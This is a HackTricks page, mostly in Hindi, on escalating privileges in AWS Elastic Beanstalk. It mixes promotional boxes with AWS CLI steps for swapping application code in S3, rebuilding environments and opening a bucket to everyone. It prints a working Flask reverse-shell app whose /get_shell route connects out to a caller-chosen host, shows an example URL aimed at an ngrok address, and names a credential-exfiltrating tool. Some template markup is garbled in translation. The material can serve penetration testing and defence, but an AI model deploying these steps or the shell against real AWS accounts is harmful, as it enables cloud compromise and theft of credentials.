 # AWS - Elastic Beanstalk Privesc

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा **PRs सबमिट** करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## Elastic Beanstalk

अधिक **Elastic Beanstalk के बारे में जानकारी**:

{% content-ref url="../aws-services/aws-elastic-beanstalk-enum.md" %}
[aws-elastic-beanstalk-enum.md](../aws-services/aws-elastic-beanstalk-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Beanstalk में संवेदनशील क्रियाएँ करने के लिए आपको **कई विभिन्न सेवाओं में कई संवेदनशील अनुमतियाँ** होनी चाहिए। आप उदाहरण के लिए **`arn:aws:iam::aws:policy/AdministratorAccess-AWSElasticBeanstalk`** को दिए गए अनुमतियों की जांच कर सकते हैं।
{% endhint %}

### `elasticbeanstalk:RebuildEnvironment`, S3 लेखन अनुमतियाँ और कई अन्य

**S3 बकेट पर लेखन अनुमतियों** के साथ और अनुमतियों के साथ **एप्लिकेशन को पुनः निर्माण करने** की अनुमति होने पर (इसके लिए `elasticbeanstalk:RebuildEnvironment` और `S3`, `EC2` और `Cloudformation` से संबंधित कुछ अधिक अनुमतियाँ की आवश्यकता है), आप **कोड** में **परिवर्तन** कर सकते हैं, **एप्लिकेशन को पुनः निर्माण** कर सकते हैं और अगली बार जब आप ऐप्लिकेशन तक पहुंचेंगे तो वह **आपके नए कोड को निष्पादित** करेगा, जिससे हमलावार एप्लिकेशन और उसके IAM भूमिका क्रेडेंशियल को कंप्रमाइज करने की अनुमति होगी।

{% code overflow="wrap" %}
```bash
# Create folder
mkdir elasticbeanstalk-eu-west-1-947247140022
cd elasticbeanstalk-eu-west-1-947247140022
# Download code
aws s3 sync s3://elasticbeanstalk-eu-west-1-947247140022 .
# Change code
unzip 1692777270420-aws-flask-app.zip
zip 1692777270420-aws-flask-app.zip <files to zip>
# Upload code
aws s3 cp 1692777270420-aws-flask-app.zip s3://elasticbeanstalk-eu-west-1-947247140022/1692777270420-aws-flask-app.zip
# Rebuild env
aws elasticbeanstalk rebuild-environment --environment-name "env-name"
```
{% endcode %}

### `elasticbeanstalk:CreateApplication`, `elasticbeanstalk:CreateEnvironment`, `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `iam:PassRole`, और अधिक...

उल्लिखित प्लस कई **`S3`**, **`EC2`, `cloudformation`** ,**`autoscaling`** और **`elasticloadbalancing`** अनुमतियाँ आवश्यक हैं एक रॉ इलास्टिक बीनस्टॉक स्थिति को शुरू से बनाने के लिए।

* एक AWS Elastic Beanstalk एप्लिकेशन बनाएं:
```bash
aws elasticbeanstalk create-application --application-name MyApp
```
* AWS Elastic Beanstalk environment बनाएं ([**समर्थित प्लेटफॉर्म**](https://docs.aws.amazon.com/elasticbeanstalk/latest/platforms/platforms-supported.html#platforms-supported.python)):

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk create-environment --application-name MyApp --environment-name MyEnv --solution-stack-name "64bit Amazon Linux 2 v3.4.2 running Python 3.8" --option-settings Namespace=aws:autoscaling:launchconfiguration,OptionName=IamInstanceProfile,Value=aws-elasticbeanstalk-ec2-role
```
{% endcode %}
If an environment is already created and you **don't want to create a new one**, you could just **update** the existent one.

* Package your application code and dependencies into a ZIP file:
```python
zip -r MyApp.zip .
```
* S3 बकेट में ZIP फ़ाइल अपलोड करें:
```python
aws s3 cp MyApp.zip s3://elasticbeanstalk-<region>-<accId>/MyApp.zip
```
* AWS Elastic Beanstalk एप्लिकेशन संस्करण बनाएं:

{% code overflow="wrap" %}
```css
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-1.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="MyApp.zip"
```
{% endcode %}

* अपने AWS Elastic Beanstalk environment में एप्लिकेशन संस्करण को डिप्लॉय करें: 

{% code overflow="wrap" %}
```bash
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0
```
{% endcode %}

### `elasticbeanstalk:CreateApplicationVersion`, `elasticbeanstalk:UpdateEnvironment`, `cloudformation:GetTemplate`, `cloudformation:DescribeStackResources`, `cloudformation:DescribeStackResource`, `autoscaling:DescribeAutoScalingGroups`, `autoscaling:SuspendProcesses`, `autoscaling:SuspendProcesses`

सबसे पहले आपको एक **वैध Beanstalk environment** बनाने की आवश्यकता है जिसमें **कोड** हो जिसे आप **विक्टिम** में **पिछले कदमों** का पालन करना चाहेंगे। संभावना है एक सरल **zip** जिसमें ये **2 फ़ाइलें** हो सकती हैं:

{% tabs %}
{% tab title="application.py" %}
```python
from flask import Flask, request, jsonify
import subprocess,os, socket

application = Flask(__name__)

@application.errorhandler(404)
def page_not_found(e):
return jsonify('404')

@application.route("/")
def index():
return jsonify('Welcome!')


@application.route("/get_shell")
def search():
host=request.args.get('host')
port=request.args.get('port')
if host and port:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,int(port)))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
return jsonify('done')

if __name__=="__main__":
application.run()
```
{% endtab %}

{% टैब शीर्षक = "आवश्यकताएँ.टेक्स्ट" %}
```
click==7.1.2
Flask==1.1.2
itsdangerous==1.1.0
Jinja2==2.11.3
MarkupSafe==1.1.1
Werkzeug==1.0.1
```
{% endtab %}
{% endtabs %}

जब आपके पास **अपना Beanstalk env चल रहा हो** और आपके पास rev shell हो, तो अब यह **माइग्रेट** करने का समय है इसे **विक्टिम** env में। इसे करने के लिए आपको अपने beanstalk S3 बकेट की **बकेट नीति को अपडेट** करने की आवश्यकता है ताकि **विक्टिम इसे एक्सेस कर सके** (ध्यान दें कि यह **सभी के लिए बकेट को खोल देगा**):
```json
{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "eb-af163bf3-d27b-4712-b795-d1e33e331ca4",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"s3:ListBucket",
"s3:ListBucketVersions",
"s3:GetObject",
"s3:GetObjectVersion",
"s3:*"
],
"Resource": [
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022",
"arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022/*"
]
},
{
"Sid": "eb-58950a8c-feb6-11e2-89e0-0800277d041b",
"Effect": "Deny",
"Principal": {
"AWS": "*"
},
"Action": "s3:DeleteBucket",
"Resource": "arn:aws:s3:::elasticbeanstalk-us-east-1-947247140022"
}
]
}
```
{% कोड ओवरफ्लो="रैप" %}
```bash
# Use a new --version-label
# Use the bucket from your own account
aws elasticbeanstalk create-application-version --application-name MyApp --version-label MyApp-2.0 --source-bundle S3Bucket="elasticbeanstalk-<region>-<accId>",S3Key="revshell.zip"

# These step needs the extra permissions
aws elasticbeanstalk update-environment --environment-name MyEnv --version-label MyApp-1.0

# To get your rev shell just access the exposed web URL with params such as:
http://myenv.eba-ankaia7k.us-east-1.elasticbeanstalk.com/get_shell?host=0.tcp.eu.ngrok.io&port=13528

Alternatively, [MaliciousBeanstalk](https://github.com/fr4nk3nst1ner/MaliciousBeanstalk) can be used to deploy a Beanstalk application that takes advantage of overly permissive Instance Profiles. Deploying this application will execute a binary (e.g., [Mythic](https://github.com/its-a-feature/Mythic) payload) and/or exfiltrate the instance profile security credentials (use with caution, GuardDuty alerts when instance profile credentials are used outside the ec2 instance).

The developer has intentions to establish a reverse shell using Netcat or Socat with next steps to keep exploitation contained to the ec2 instance to avoid detections.
```
{% endcode %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** द्वारा PRs सबमिट करके [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
